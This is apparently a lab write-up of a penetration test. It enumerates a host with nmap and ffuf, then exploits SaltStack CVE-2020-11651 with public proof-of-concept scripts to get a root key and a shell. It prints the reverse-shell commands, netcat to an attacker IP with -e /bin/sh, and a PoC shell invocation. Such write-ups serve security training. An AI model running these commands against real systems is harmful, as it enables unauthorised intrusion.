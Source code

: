 `nmap -A -T4 -p- 192.168.225.62`

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 44:7d:1a:56:9b:68:ae:f5:3b:f6:38:17:73:16:5d:75 (RSA)
|   256 1c:78:9d:83:81:52:f4:b0:1d:8e:32:03:cb:a6:18:93 (ECDSA)
|_  256 08:c9:12:d9:7b:98:98:c8:b3:99:7a:19:82:2e:a3:ea (ED25519)
53/tcp   open  domain  NLnet Labs NSD
80/tcp   open  http    nginx 1.16.1
|_http-server-header: nginx/1.16.1
|_http-title: Home | Mezzanine
4505/tcp open  zmtp    ZeroMQ ZMTP 2.0
4506/tcp open  zmtp    ZeroMQ ZMTP 2.0
8000/tcp open  http    nginx 1.16.1
|_http-server-header: nginx/1.16.1
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Site doesn't have a title (application/json).
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|router
Running (JUST GUESSING): Linux 3.X|4.X|2.6.X|5.X (97%), MikroTik RouterOS 7.X (91%)
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
Aggressive OS guesses: Linux 3.10 - 4.11 (97%), Linux 3.2 - 4.14 (97%), Linux 3.13 - 4.4 (91%), Linux 3.8 - 3.16 (91%), Linux 2.6.32 - 3.13 (91%), Linux 3.4 - 3.10 (91%), Linux 4.15 (91%), Linux 4.15 - 5.19 (91%), Linux 5.0 - 5.14 (91%), MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3) (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
```


# HTTP (80)

Is a site powered by Mezzanine CMS, which shows some exploit for XSS but lets continue enumerating

![](Images/Pasted%20image%2020250509093416.png)

```
ffuf -ic -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://192.168.225.62:80/FUZZ -fc 301
```

# HTTP (8000)

On port 8000 we see what appears to an API of some sort. We can use this to enumerate the web service more

Additional Information `Powered by CherryPy 5.6.0` no results on searchsploit but on a google search we get a directory traversal [exploit](https://security.snyk.io/vuln/SNYK-PYTHON-CHERRYPY-449897)

![](Images/Pasted%20image%2020250509093519.png)

```
ffuf -ic -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://192.168.225.62:8000/FUZZ
```

```
index                   [Status: 200, Size: 146, Words: 12, Lines: 1, Duration: 56ms]
login                   [Status: 200, Size: 43, Words: 6, Lines: 1, Duration: 85ms]
events                  [Status: 401, Size: 753, Words: 155, Lines: 31, Duration: 62ms]
jobs                    [Status: 401, Size: 753, Words: 155, Lines: 31, Duration: 59ms]
stats                   [Status: 401, Size: 753, Words: 155, Lines: 31, Duration: 53ms]
logout                  [Status: 500, Size: 823, Words: 166, Lines: 31, Duration: 75ms]
keys                    [Status: 401, Size: 753, Words: 155, Lines: 31, Duration: 61ms]
run                     [Status: 200, Size: 146, Words: 12, Lines: 1, Duration: 56ms]
```

Appears this is where we are meant to go lets manually test some of these. If this is an API we can start to enumerate it further. Within the request headers is "Salt-API-3000-1"

![](Images/Pasted%20image%2020250509095357.png)

Lets search that up as the CherryPy CMS didn't have anything.

We find a RCE for Saltstack [here](https://github.com/jasperla/CVE-2020-11651-poc) lets go ahead and test this against our target machine. Since it has external libraries I will create a venv first to install salt.

```
python3 -m venv venv
source venv/bin/activate && pip install salt
```

I am having to do a lot of debugging with this specific POC. After installing a bunch of libraries I got it to work.

```
python3 poc.py --master 192.168.225.62
```

![](Images/Pasted%20image%2020250509101611.png)

```
[+] Checking salt-master (192.168.225.62:4506) status... ONLINE
[+] Checking if vulnerable to CVE-2020-11651... YES
[*] root key obtained: YW+X7MyAJUrsskh2mt7TkF3FvyJaWLbGfylEiu5AdjFu9Rr8ggmt+HuXNPmPn9rfU1T7rmGnPCY=
```

Based on the POC we should be able to get a shell with this

```
python3 poc.py --master 192.168.225.62 --exec "nc 192.168.45.244 80 -e /bin/sh"
python3 poc.py --master 192.168.225.62 --exec "nc 192.168.45.244 22 -e /bin/sh"
```

Both of these seems to have executed properly, but after successfully scheduling the job it did not produce any shells.

![](Images/Pasted%20image%2020250509102343.png)

We can take a look at what options we have for commands to see what we can do. I also found another version of this POC with a shell command built in. Find it [here](https://github.com/Al1ex/CVE-2020-11652/blob/main/CVE-2020-11652.py)

```
python3 poc2.py --master 192.168.225.62 --shell-LHOST 192.168.45.244 --shell-LPORT 80
```

Gets us execution and a shell.

![](Images/Pasted%20image%2020250509102657.png)





